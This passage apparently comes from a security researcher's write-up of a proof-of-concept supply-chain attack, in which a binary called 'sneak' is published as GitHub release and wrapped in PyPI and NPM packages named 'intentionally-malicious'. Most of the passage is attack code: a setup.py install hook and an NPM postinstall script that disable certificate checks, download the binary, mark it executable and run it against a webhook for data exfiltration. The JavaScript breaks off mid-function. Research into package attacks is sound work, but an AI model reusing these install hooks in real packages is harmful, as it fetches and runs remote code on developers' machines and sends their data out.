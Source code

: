 ### Launching the Attack

I built an ELF of the binary, and placed it into the sneak repository’s [Releases](https://github.com/ex0dus-0x/sneak/releases/tag/prerelease), and wrote two “wrapper” packages for both [PyPI](https://pypi.org/project/intentionally-malicious/) and [NPM](https://www.npmjs.com/package/intentionally-malicious) called `intentionally-malicious`. The PyPI one looked something like this:

```python
"""
setup.py
"""
import os
import urllib.request
import ssl
from subprocess import Popen, PIPE, STDOUT

from setuptools import setup
from setuptools.command.install import install

ssl._create_default_https_context = ssl._create_unverified_context

MALWARE = "https://github.com/ex0dus-0x/sneak/releases/download/prerelease/sneak"
WEBHOOK = "https://<WEBHOOK_URL>.com/"

class IntentionallyMalicious(install):
    def run(self):
        fd = urllib.request.urlretrieve(MALWARE, "sneak", )
        os.system("chmod +x ./sneak")
        cmd = f'./sneak -webhook={WEBHOOK}'
        p = Popen(cmd, shell=True, stdin=PIPE, stdout=PIPE, stderr=STDOUT, close_fds=True)
        p.communicate()

setup(
    name="intentionally-malicious1",
    cmdclass={
        "install": IntentionallyMalicious
    },
    ...
)
```

Here, we adopt a similar approach to what many package attackers take, where malicious behavior gets triggered immediately when a `pip install` command is triggered, as one can introduce malicious arbitrary code to `setup.py`. We do the same with the NPM package, setting the `postinstall` field as part of the `package.json` manifest to trigger code as so:

```jsx
const request = require('request');
const fs = require('fs');
const exec = require('child_process').exec;

const url = "https://github.com/ex0dus-0x/sneak/releases/download/prerelease/sneak"
const file = fs.createWriteStream("sneak");
request({
  followAllRedirects: true,
  url: url
}, function (error, response, body) {
  request(url).pipe(file).on('close', function() {
    console.log("done");
    exec('chmod +x ./sneak && ./sneak -webhook=https://<WEBHOOK_URL>.com/')
      if (err) {
          console.log(err);
          return;
      }
      console.log(`stdout: ${stdout}`);
```